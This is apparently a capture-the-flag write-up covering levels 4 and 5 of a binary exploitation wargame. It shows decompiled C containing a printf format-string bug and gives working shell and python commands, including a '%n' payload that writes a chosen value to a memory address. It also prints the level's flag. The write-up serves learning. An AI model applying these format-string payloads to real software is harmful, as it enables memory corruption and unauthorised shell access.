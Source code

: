 ```c
}

void p(char *buffer) {
	printf(buffer);
	return;
}
```

## LEVEL4 - EXPLANATION & SOLUTION

Vulnerability: Format String in printf

The printf function in the p function is called with user-controlled input without specifying a format string. This introduces a format string vulnerability, allowing an attacker to write arbitrary values into memory.

1. Find the Address of m:

	- Use objdump to find the symbol table and identify the address of the variable m:
	```bash
	objdump -t level4
	```

2. Inspect the Stack:

	- Test the stack to find the offset for the format string:
	```bash
	python -c 'print("\x10\x98\x04\x08" + "%x " * 12)' | ./level4
	```

3. Write to the Address of m:

	- To set m to 0x1025544 (16930116 in decimal), use the %<number>x format specifier to pad the output:
	```bash
	(python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")'; cat) | ./level4
	```
	- `\x10\x98\x04\x08`: The address of m in little-endian format.
	- `%16930112x`: Pads the output to 16930112 bytes. Adjust as needed to reach 0x1025544.
	- `%12$n`: Writes the total number of bytes printed so far into the 12th stack argument.

## LEVEL4 - FLAG

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

## LEVEL5 - BINARY ANALYSIS

```c
void main(void) {
	n();
	return;
}

void n(void) {
	char buffer[520];

	fgets(buffer,512,stdin);
	printf(buffer);
	exit(1);
}

void o(void) {
	system("/bin/sh");
	exit(1);
}
```